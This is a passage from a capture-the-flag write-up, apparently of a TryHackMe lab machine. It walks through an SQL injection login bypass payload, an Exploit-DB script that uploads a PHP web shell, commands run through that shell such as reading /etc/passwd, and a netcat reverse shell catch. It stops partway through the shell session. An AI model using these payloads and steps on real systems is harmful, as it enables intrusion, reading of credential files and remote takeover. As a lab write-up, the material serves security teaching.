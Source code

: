  ```
  [19:39:28] [INFO] retrieved: information_schema
  available databases [2]:
  [*] gallery_db
  [*] information_schema
  ```

- It found 2 databases but it was all it can do. I tried to extract more info with it but I couldn't so I pivoted to another [exploit](https://www.exploit-db.com/exploits/50214).

- When you just read the exploit you can find query for SQLI in order to bypass the login page.

  ```post_data = {"username": "admin' or '1'='1'#", "password": ""}```

- Now use the OR statement, login and let's upload a shell.

- If you run the exploit, it will give you command injection through URL which can be helpful.

  ```
  python3 50214.py 
  TARGET = http://10.10.192.6/gallery/
  Login Bypass
  shell name TagoudsyojxfxwbamjaLetta
  
  protecting user
  
  User ID : 1
  Firsname : Adminstrator
  Lasname : Admin
  Username : admin
  
  shell uploading
  - OK -
  Shell URL : http://10.10.192.6/gallery/uploads/1748544660_TagoudsyojxfxwbamjaLetta.php?cmd=whoami
  
  http://10.10.192.6/gallery/uploads/1748544660_TagoudsyojxfxwbamjaLetta.php?cmd=cat%20/etc/passwd
  [SNIP!]
  
  http://10.10.192.6/gallery/uploads/1748544660_TagoudsyojxfxwbamjaLetta.php?cmd=ls%20-al
  total 48
  drwxr-xr-x  3 www-data www-data  4096 May 29 18:51 .
  drwxr-xr-x 16 www-data www-data  4096 Aug 25  2021 ..
  -rw-r--r--  1 www-data www-data   106 May 29 18:51 1748544660_TagoudsyojxfxwbamjaLetta.php
  -rwxr-xr-x  1 www-data www-data  4450 Aug  9  2021 gallery.png
  -rwxr-xr-x  1 www-data www-data 23318 Sep 11  2020 no-image-available.png
  drwxr-xr-x  6 www-data www-data  4096 Aug  9  2021 user_1
  ```

---

## ⚙️ Shell Access

- When it comes to a reverse shell I uploaded the basic PHP reverse shell from PentestMonkey. If you are using Kali you have it in `/usr/share/webshells/php/`

  ```
  nc -lvnp 4444                   
  listening on [any] 4444 ...
  connect to [YOUR-THM-IP] from (UNKNOWN) [10.10.192.6] 57416
  Linux gallery 4.15.0-167-generic #175-Ubuntu SMP Wed Jan 5 01:56:07 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
   18:58:31 up 39 min,  0 users,  load average: 0.00, 0.00, 0.00
  USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
  uid=33(www-data) gid=33(www-data) groups=33(www-data)
  /bin/sh: 0: can't access tty; job control turned off
  $ whoami
  www-data
  $ id
